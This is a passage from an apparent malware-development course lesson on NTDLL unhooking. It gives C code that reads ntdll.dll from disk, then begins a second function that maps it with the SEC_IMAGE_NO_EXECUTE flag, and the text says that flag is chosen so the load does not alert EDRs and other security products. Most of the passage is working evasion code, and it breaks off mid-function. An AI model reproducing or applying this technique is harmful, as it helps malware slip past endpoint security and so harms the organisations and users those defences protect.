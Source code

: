 ```c
		printf("[!] CreateFileA Failed With Error : %d \n", GetLastError());
		goto _EndOfFunc;
	}

	// allocating enough memory to read the ntdll.dll file
	dwFileLen     = GetFileSize(hFile, NULL);
	pNtdllBuffer  = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwFileLen);

	// reading the file
	if (!ReadFile(hFile, pNtdllBuffer, dwFileLen, &dwNumberOfBytesRead, NULL) || dwFileLen != dwNumberOfBytesRead) {
		printf("[!] ReadFile Failed With Error : %d \n", GetLastError());
		printf("[i] Read %d of %d Bytes \n", dwNumberOfBytesRead, dwFileLen);
		goto _EndOfFunc;
	}

	*ppNtdllBuf = pNtdllBuffer;

_EndOfFunc:
	if (hFile)
		CloseHandle(hFile);
	if (*ppNtdllBuf == NULL)
		return FALSE;
	else
		return TRUE;
}
```

#### Mapping NTDLL

The `CreateFileMappingA` and `MapViewOfFile` WinAPIs can also be used to read the `ntdll.dll` file from `C:\Windows\System32\`. When using these WinAPIs, the text section offset will be 4096 rather than 1024. This is because the image is mapped which causes the Windows loader to apply this alignment modification. Without the `SEC_IMAGE` or `SEC_IMAGE_NO_EXECUTE` flags in `CreateFileMappingA`, this alignment will not occur and therefore the offset remains at 1024.

The `SEC_IMAGE_NO_EXECUTE` flag will be used in the implementation below because it doesn't trigger the [PsSetLoadImageNotifyRoutine](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-pssetloadimagenotifyroutine) callback. This means that the use of this flag will not alert EDRs and other security products that are utilizing this function when ntdll.dll is mapped into memory. This is indicated in the Windows documentation for `CreateFileMappingA` as shown below.

![image](https://maldevacademy.s3.amazonaws.com/images/Advanced/ntdll-unhooking-disk-118295799-85ce595b-6772-44bf-b764-0ba034284c2e.png)

Fetching `ntdll.dll` from disk using the mapping WinAPIs is done via the custom `MapNtdllFromDisk` function below. `MapNtdllFromDisk` returns `TRUE` if it succeeds in reading the ntdll.dll file.

```c
#define NTDLL "NTDLL.DLL"

BOOL MapNtdllFromDisk(OUT PVOID* ppNtdllBuf) {

	HANDLE  hFile                           = NULL,
		    hSection                        = NULL;
	CHAR    cWinPath    [MAX_PATH / 2]      = { 0 };
	CHAR    cNtdllPath  [MAX_PATH]          = { 0 };
	PBYTE   pNtdllBuffer                    = NULL;

	// getting the path of the Windows directory
	if (GetWindowsDirectoryA(cWinPath, sizeof(cWinPath)) == 0) {
		printf("[!] GetWindowsDirectoryA Failed With Error : %d \n", GetLastError());
		goto _EndOfFunc;
	}

	// 'sprintf_s' is a more secure version than 'sprintf'
```